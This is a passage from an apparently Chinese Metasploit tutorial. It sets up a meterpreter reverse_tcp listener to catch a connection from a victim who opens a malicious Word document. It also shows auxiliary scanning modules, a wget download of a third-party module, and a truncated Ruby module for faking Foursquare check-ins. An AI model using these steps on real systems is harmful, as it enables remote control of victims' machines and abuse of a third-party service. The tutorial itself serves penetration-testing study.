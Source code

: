 此时会生成一个msf.doc的word文档，在目标机器上打开此文档，然后本机监听端口等待反弹连接：

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.111
set LPORT 443
exploit –j
```

## 九．MSF 附加模块


包括端口扫描，服务探测，弱口令探测，fuzzer，sql注射等。附加模块没有payload。
模块保存在/opt/framework3/msf3/modules/auxiliary/目录中的各个子目录下。
可用命令查看全部可用附加模块：`msf> show auxiliary`

例子：
o```
msf> use scanner/http/webdav_scanner
info
show options
set RHOSTS 192.168.1.141,192.168.1.142,192.168.2.222
run
```

搜索所有http相关扫描模块：

`search scanner/http`


附加模块深层剖析：

```
cd /opt/framework3/msf3/modules/auxiliary/admin/
wget http://carnal0wnage.googlecode.com/svn/trunk/msf3/modules/auxiliary/admin/random/foursqueare.rb
```

代码分析:

```ruby
require ‘msf/core’
class Metasploit3 < Msf::Auxiliary #导入Auxiliaary类
#Exploit mixins should be called first
include Msf::Exploit::Remote::HttpClient #导入HTTPClient方法
include Msf::Auxiliary::Report

def initialize

super(
‘Name’ => ‘Foursquare Location Poster’,
‘Version’ => ‘$Revision:$’,
‘Description’ => ‘F*ck with Foursquare,be anywhere you want to be by venue id’,
‘Author’ => [‘CG’],
‘License’ => MSF_LICENSE,
‘References’ =>
[
[‘URL’,’http://groups.google.com/group/foursquare-api’],
[‘URL’,’http://www.mikekey.com/im-a-foursquare-cheater/’],
]
#todo pass in geocoords instead of venueid,create a venueid, other tom foolery

register_options(
[
Opt::RHOST(‘api.foursquare.com’),
```